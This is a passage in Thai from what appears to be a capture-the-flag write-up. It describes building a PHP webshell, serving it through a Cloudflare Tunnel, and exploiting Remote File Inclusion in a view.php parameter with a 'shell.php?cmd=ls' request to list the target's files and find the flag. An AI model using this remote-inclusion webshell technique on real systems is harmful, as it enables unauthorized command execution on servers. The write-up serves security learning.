 ### 🛠️ สร้าง Webshell  
เพื่อที่จะทำ **Remote File Inclusion (RFI)** เราได้สร้างไฟล์ **PHP** เพื่อให้ใช้ Command Injection ได้และทำการเปิด **Webserver** ผ่าน **Cloudflare Tunnel**   

<img src="./resources/11.png" alt="" style="width:60% !important;">

### 🔑 การค้นหา Flag  
สุดท้าย เราใส่คำสั่งเพื่อหา **flag** และค้นพบไฟล์ **flag_xxx.txt** ที่เปิดอ่านได้และพบคำตอบที่ตามหา!  

ใช้คำสั่ง:
```
?view.php?secret=santa&file=<url cloudflare tunnel>/shell.php?cmd=ls
```
**ผลลัพธ์:** ได้รายการไฟล์ และเห็นไฟล์ flag ในเครื่องเป้าหมายแล้ว

<img src="./resources/12.png" alt="" style="width:60% !important;">
